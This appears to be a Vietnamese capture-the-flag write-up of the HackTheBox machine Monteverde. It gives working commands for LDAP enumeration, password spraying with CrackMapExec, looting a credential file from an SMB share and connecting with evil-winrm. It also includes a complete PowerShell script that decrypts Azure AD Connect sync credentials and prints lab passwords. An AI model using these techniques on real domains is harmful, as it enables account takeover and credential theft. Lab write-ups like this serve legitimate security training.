

# Monteverde

## Synopsis

Monteverde là machine Medium Windows có tính năng Azure AD Connect. Domain được enum và user list được tạo. Thông qua việc spray password, tài khoản dịch vụ `SABatchJobs` được phát hiện sử dụng username làm password. Sử dụng tài khoản dịch vụ này, có thể enum SMB Shares trên hệ thống và share `$users` được phát hiện có thể đọc được trên toàn thế giới. Một tệp XML được sử dụng cho tài khoản Azure AD được tìm thấy trong directory user và chứa password. Sử dụng password, có thể kết nối với domain controller `mhope` bằng WinRM. Việc enum cho thấy `Azure AD Connect` đã được cài đặt. Có thể trích xuất thông tin xác thực cho tài khoản sao chép các thay đổi thư mục sang Azure (trong trường hợp này là administrator default domain).

### Skills required

- Enum Windows cơ bản

- Enum Active Directory cơ bản

### Skills Learned

- Spray Password

- Sử dụng `sqlcmd`

- Trích xuất mật khẩu Azure AD Connect

## Enumeration

### Nmap

```
ports=$(nmap -p- --min-rate=1000 -T4 10.10.10.172 | grep ^[0-9] | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//)
nmap -p$ports -sC -sV 10.10.10.172
```


Quá trình scan cho thấy nhiều port mở, bao gồm port 53 (DNS), 389 (LDAP) và 445 (SMB). Điều này cho thấy server là domain controller. Nmap xác định domain là `MEGABANK.LOCAL`.

### Domain Enumeration

Bước đầu tiên tốt nhất là kiểm tra các anonymous bind LDAP hoặc session null SMB, vì điều này sẽ cho phép enum domain mà không cần thông tin xác thực. Tải `windapsearch`.

```
wget https://raw.githubusercontent.com/ropnop/windapsearch/master/windapsearch.py
```

Tiếp theo, đưa ra command sau để kiểm tra xem anonymous LDAP có được phép hay không.

```
python windapsearch.py -u "" --dc-ip 10.10.10.172
```


Có thể liệt kê domain user.

```
python windapsearch.py -u "" --dc-ip 10.10.10.172 -U --admin-objects

[+] No username provided. Will try anonymous bind.
[+] Using Domain Controller at: 10.10.10.172
[+] Getting defaultNamingContext from Root DSE
[+] Found: DC=MEGABANK,DC=LOCAL
[+] Attempting bind
[+] ...success! Binded as:
[+] None

[+] Enumerating all AD users
[+] Found 10 users:

cn: Guest

cn: AAD_987d7f2f57d2

cn: Mike Hope
userPrincipalName: mhope@MEGABANK.LOCAL

cn: SABatchJobs
userPrincipalName: SABatchJobs@MEGABANK.LOCAL

cn: svc-ata
userPrincipalName: svc-ata@MEGABANK.LOCAL

cn: svc-bexec
userPrincipalName: svc-bexec@MEGABANK.LOCAL

cn: svc-netapp
userPrincipalName: svc-netapp@MEGABANK.LOCAL

cn: Dimitris Galanos
userPrincipalName: dgalanos@MEGABANK.LOCAL

cn: Ray O'Leary
userPrincipalName: roleary@MEGABANK.LOCAL

cn: Sally Morgan
userPrincipalName: smorgan@MEGABANK.LOCAL

[+] Attempting to enumerate all admin (protected) objects
[+] Found 0 Admin Objects:
```

Output trả về một vài user thú vị. `SABatchJobs` có thể là một tài khoản dịch vụ dành riêng để chạy các tác vụ hàng loạt và có lẽ không bình thường khi có tên hỗn hợp chữ hoa và chữ thường. Sự hiện diện của tài khoản `AAD_987d7f2f57d2` là dấu hiệu mạnh mẽ cho thấy `AD Connect` đã được cài đặt trong domain. AD Connect là một công cụ được sử dụng để đồng bộ hóa môi trường Active Directory tại chỗ với Azure Active Directory.

Sử dụng windapsearch, có thể enum thêm các domain group và xem user nào thuộc về `Remote Management Users`. Group này cho phép các thành viên của mình kết nối với máy tính bằng PowerShell Remoting.

```
python windapsearch.py -u "" --dc-ip 10.10.10.172 -U -m "Remote Management Users"
```


User `mhope` được xác định là thuộc group `Remote Management Users`.

Sử dụng `smbclient` để kiểm tra các phiên null SMB. Output command báo cáo rằng nỗ lực đăng nhập anonymous đã thành công, mặc dù không liệt kê được bất kỳ share nào. Có thể thử lấy thông tin xác thực và truy cập lại.


Sử dụng `enum4linux` để lấy thông tin domain khác.

```
enum4linux -a 10.10.10.172
```


Lưu ý rằng `Account Lockout Threshold` được đặt thành `None`, do đó có thể thử spray password để lấy thông tin đăng nhập hợp lệ.

windapsearch có thể được sử dụng để tạo danh sách domain user.

```
python windapsearch.py -u "" --dc-ip 10.10.10.172 -U | grep '@' | cut -d ' ' -f 2 | cut -d '@' -f 1 | uniq > users.txt
```


## Foothold

Có danh sách user và đối với nỗ lực spray mật khẩu, có thể sử dụng danh sách rất ngắn các mật khẩu có khả năng thống kê cao. Việc thêm tên user đã phát hiện vào danh sách này là đáng giá, vì việc có password trùng với username là một thực tế phổ biến.

```
get https://raw.githubusercontent.com/insidetrust/statistically-likely-usernames/master/weak-corporate-passwords/english-basic.txt

cat users.txt >> english-basic.txt
```


Tiếp theo, có thể sử dụng CrackMapExec để thực hiện việc spray mật khẩu, lưu ý rằng không có rủi ro nào trong việc lock tài khoản do không có chính sách lock tài khoản.

```
crackmapexec smb 10.10.10.172 -d megabank -u users.txt -p english-basic.txt

SMB 10.10.10.172 445 MONTEVERDE [-] megabank\mhope:Password1 STATUS_LOGON_FAILURE
SMB 10.10.10.172 445 MONTEVERDE [-] megabank\mhope:Welcome1 STATUS_LOGON_FAILURE
SMB 10.10.10.172 445 MONTEVERDE [-] megabank\mhope:Letmein1 STATUS_LOGON_FAILURE
SMB 10.10.10.172 445 MONTEVERDE [-] megabank\mhope:Password123 STATUS_LOGON_FAILURE
SMB 10.10.10.172 445 MONTEVERDE [-] megabank\mhope:Welcome123 STATUS_LOGON_FAILURE
SMB 10.10.10.172 445 MONTEVERDE [-] megabank\mhope:Letmein123 STATUS_LOGON_FAILURE
SMB 10.10.10.172 445 MONTEVERDE [-] megabank\mhope:mhope STATUS_LOGON_FAILURE
<SNIP>
SMB 10.10.10.172 445 MONTEVERDE [-] megabank\SABatchJobs:mhope STATUS_LOGON_FAILURE
SMB 10.10.10.172 445 MONTEVERDE [+] megabank\SABatchJobs:SABatchJobs
```

Điều này đã thành công và đã có được thông tin xác thực domain hợp lệ: `SABatchJobs / SABatchJobs`. Xem liệu có thể sử dụng tài khoản này để thực thi command trên máy chủ hay không.

```
smbmap -u SABatchJobs -p SABatchJobs -d megabank -H 10.10.10.172 -x whoami
```

Cách này không thành công. Thay vào đó, có thể sử dụng `smbmap` để enum các remote file share, enum các quyền.


Tiếp theo, thu thập dữ liệu share của user để tìm các file có thể thú vị, chẳng hạn như tài liệu Office, file text và file XML.

```
smbmap -u SABatchJobs -p SABatchJobs -d megabank -H 10.10.10.172 -A '(xlsx|docx|txt|xml)' -R
```


Thao tác này sẽ hiển thị file `azure.xml` được tự động tải xuống.

```
cat 10.10.10.172-users_mhope_azure.xml

<Objs Version="1.1.0.1" xmlns="http://schemas.microsoft.com/powershell/2004/04">
  <Obj RefId="0">
    <TN RefId="0">
      <T>Microsoft.Azure.Commands.ActiveDirectory.PSADPasswordCredential</T>
      <T>System.Object</T>
    </TN>
    <ToString>Microsoft.Azure.Commands.ActiveDirectory.PSADPasswordCredential</ToString>
    <Props>
      <DT N="StartDate">2020-01-03T05:35:00.7562298-08:00</DT>
      <DT N="EndDate">2054-01-03T05:35:00.7562298-08:00</DT>
      <G N="KeyId">00000000-0000-0000-0000-000000000000</G>
      <S N="Password">4n0therD4y@n0th3r$</S>
    </Props>
  </Obj>
</Objs>
```

File này chứa password Azure AD `4n0therD4y@n0th3r$`. Kiểm tra xem `mhope` có sử dụng password này trong local AD không. Có thể sử dụng WinRM để kiểm tra thông tin xác thực, vì biết tài khoản này nằm trong group `Remote Management Users`.

```
evil-winrm -i 10.10.10.172 -u mhope -p '4n0therD4y@n0th3r$'
```

Điều này thành công, mặc dù lệnh `whoami /priv` cho thấy user hiện tại không có đặc quyền. Tuy nhiên, `whoami /groups` cho thấy tài khoản này là thành viên của group `MEGABANK\Azure Admins`.

User flag nằm trong `C:\Users\mhope\Desktop`.

## Privilege Escalation

Khi điều hướng đến `C:\Program Files\`, có thể thấy cả `Microsoft SQL Server` và `AD Connect` đều được cài đặt. Có nhiều bài viết được public online về các lỗ hổng và cơ hội leo thang đặc quyền với dịch vụ Azure AD (AAD) Sync.

```
*Evil-WinRM* PS C:\> cd Progra~1
*Evil-WinRM* PS C:\Program Files> ls

    Directory: C:\Program Files

Mode                LastWriteTime    Length Name 

----                -------------    ------ ---- 

d-----          1/2/2020 9:36 PM            Common Files 
d-----          1/2/2020 2:46 PM            internet explorer 
d-----          1/2/2020 2:38 PM            Microsoft Analysis Services 
d-----          1/2/2020 3:37 PM            Microsoft Azure Active Directory
Connect
d-----          1/2/2020 3:02 PM            Microsoft Azure AD Connect Health Sync
d-----          1/2/2020 2:53 PM            Microsoft Azure AD Sync 
d-----          1/2/2020 2:31 PM            Microsoft SQL Server
```

Tìm hiểu phiên bản AD Connect. Theo tài liệu của Microsoft, tên của dịch vụ chịu trách nhiệm đồng bộ local AD với Azure AD là `ADSync`. Không thấy tham chiếu nào về điều này khi chạy `Get-Process` và việc cố gắng chạy `tasklist` dẫn đến lỗi `Access Denied`.

Cũng có thể thử enum các dịch vụ bằng lệnh cmdlet `PowerShell Get-Service` hoặc bằng cách gọi lệnh `wmic.exe service get name`, `sc.exe query state= all` hoặc `net.exe start`, nhưng cũng bị denied access. Thay vào đó, có thể enum phiên bản dịch vụ bằng Registry.

```
Get-Item -Path HKLM:\SYSTEM\CurrentControlSet\Services\ADSync
```


Điều này cho thấy file binary của dịch vụ là `C:\Program Files\Microsoft Azure AD Sync\Bin\miiserver.exe`.

Có thể thực hiện command bên dưới để lấy phiên bản file (và product).

```
Get-ItemProperty -Path "C:\Program Files\Microsoft Azure AD Sync\Bin\miiserver.exe" | Format-list -Property * -Force
```


Tìm kiếm online cho thấy công cụ adconnectdump (https://github.com/fox-it/adconnectdump), có thể được sử dụng để trích xuất mật khẩu cho AD Connect Sync Account. Repo đề cập rằng cách AD Connect lưu trữ thông tin xác thực đã thay đổi một thời gian trước. Phiên bản mới lưu trữ thông tin xác thực bằng DPAPI và phiên bản cũ sử dụng Registry. Phiên bản hiện tại của AD Connect tại thời điểm viết là `1.5.30.0`, vì vậy phiên bản trên máy chủ không có khả năng sử dụng DPAPI. Công cụ này hoạt động với các phiên bản AD Connect mới hơn sử dụng DPAPI.

Một số tìm kiếm sâu hơn sẽ cho thấy bài đăng trên blog này (https://blog.xpnsec.com/azuread-connect-for-redteam/), được khuyến nghị đọc. Bài đăng này trình bày chi tiết quá trình khai thác cho phiên bản cũ hơn của AD Connect. Sao chép script từ bài đăng trên blog và lưu local.

Cố gắng chạy như vậy không thành công. Thử trích xuất các giá trị `instance_id`, `keyset_id` và `entropy` từ database theo cách thủ công. Cài đặt mặc định của AD Connect sử dụng phiên bản SQL Server Express làm LocalDB, kết nối qua một pipe có tên. Tuy nhiên, việc enum `C:\Program Files` và `netstat` cho thấy Microsoft SQL Server đã được cài đặt và bound với `10.10.10.172` (nhưng không thể truy cập bên ngoài). Vì vậy, có vẻ như đây là cài đặt tùy chỉnh của AD Connect.



Thay vào đó, có thể sử dụng tiện ích gốc của SQL Server `sqlcmd.exe` để trích xuất các giá trị từ database.

```
sqlcmd -S MONTEVERDE -Q "use ADsync; select instance_id,keyset_id,entropy from mms_server_configuration"
```


Thao tác này thành công và các giá trị đã được trả về.

Sửa đổi script để đặt các biến `$key_id`, `$instance_id` và `$entropy` thành các giá trị trích xuất từ ​​cơ sở dữ liệu và xóa các command cố gắng tự động lấy chúng. Thêm điều này sau dòng đầu tiên của script.

```
$key_id = 1
$instance_id = [GUID]"1852B527-DD4F-4ECF-B541-EFCCBFF29E31"
$entropy = [GUID]"194EC2FC-F186-46CF-B44D-071EB61F49CD"
```

Xóa các dòng sau.

```
$cmd = $client.CreateCommand()
$cmd.CommandText = "SELECT keyset_id, instance_id, entropy FROM
mms_server_configuration"
$reader = $cmd.ExecuteReader()
$reader.Read() | Out-Null
$key_id = $reader.GetInt32(0)
$instance_id = $reader.GetGuid(1)
$entropy = $reader.GetGuid(2)
$reader.Close()
```

Tiếp theo sẽ cần sửa đổi biến `$client` hiện có để tham chiếu đến SQL Server tùy chỉnh.

```
$client = new-object System.Data.SqlClient.SqlConnection -ArgumentList "Server=MONTEVERDE;Database=ADSync;Trusted_Connection=true"
```

Đóng gói script trong một fuction mà có thể gọi. Lưu payload cuối cùng bên dưới dưới dạng `adconnect.ps1`.

```
Function Get-ADConnectPassword{

Write-Host "AD Connect Sync Credential Extract POC (@_xpn_)`n"

$key_id = 1
$instance_id = [GUID]"1852B527-DD4F-4ECF-B541-EFCCBFF29E31"
$entropy = [GUID]"194EC2FC-F186-46CF-B44D-071EB61F49CD"

$client = new-object System.Data.SqlClient.SqlConnection -ArgumentList
"Server=MONTEVERDE;Database=ADSync;Trusted_Connection=true"
$client.Open()
$cmd = $client.CreateCommand()
$cmd.CommandText = "SELECT private_configuration_xml, encrypted_configuration FROM mms_management_agent WHERE ma_type = 'AD'"
$reader = $cmd.ExecuteReader()
$reader.Read() | Out-Null
$config = $reader.GetString(0)
$crypted = $reader.GetString(1)
$reader.Close()

add-type -path 'C:\Program Files\Microsoft Azure AD Sync\Bin\mcrypt.dll'
$km = New-Object -TypeName Microsoft.DirectoryServices.MetadirectoryServices.Cryptography.KeyManager
$km.LoadKeySet($entropy, $instance_id, $key_id)
$key = $null
$km.GetActiveCredentialKey([ref]$key)
$key2 = $null
$km.GetKey(1, [ref]$key2)
$decrypted = $null
$key2.DecryptBase64ToString($crypted, [ref]$decrypted)

$domain = select-xml -Content $config -XPath "//parameter[@name='forest-login-domain']" | select @{Name = 'Domain'; Expression = {$_.node.InnerXML}}
$username = select-xml -Content $config -XPath "//parameter[@name='forest-login-user']" | select @{Name = 'Username'; Expression = {$_.node.InnerXML}}
$password = select-xml -Content $decrypted -XPath "//attribute" | select @{Name = 'Password'; Expression = {$_.node.InnerXML}}

Write-Host ("Domain: " + $domain.Domain)
Write-Host ("Username: " + $username.Username)
Write-Host ("Password: " + $password.Password)

}
```

Cờ `-s` trong `Evil-WinRM` cho phép chỉ định một folder chứa các script PowerShell. Có thể tải một scriopt vào memory trong session `Evil-WinRM` bằng cách nhập tên script và nhấn return.

```
evil-winrm -i 10.10.10.172 -u mhope -p "4n0therD4y@n0th3r$" -s .

adconnect.ps1

Get-ADConnectPassword
```


Việc này đã thành công và đã có được thông tin xác thực cho AD Connect Sync Account. Trong trường hợp này, vì đây là cài đặt tùy chỉnh nên có vẻ như administrator domain chính đã được sử dụng cho việc này. Cần lưu ý rằng cài đặt mặc định sử dụng tài khoản dịch vụ `NT SERVICE\ADSync`.

Sử dụng Evil WinRM để kết nối với tư cách là administrator.

```
evil-winrm -i 10.10.10.172 -u administrator -p 'd0m@in4dminyeah!'
```


Root flag nằm ở `C:\Users\Administrator\Desktop`.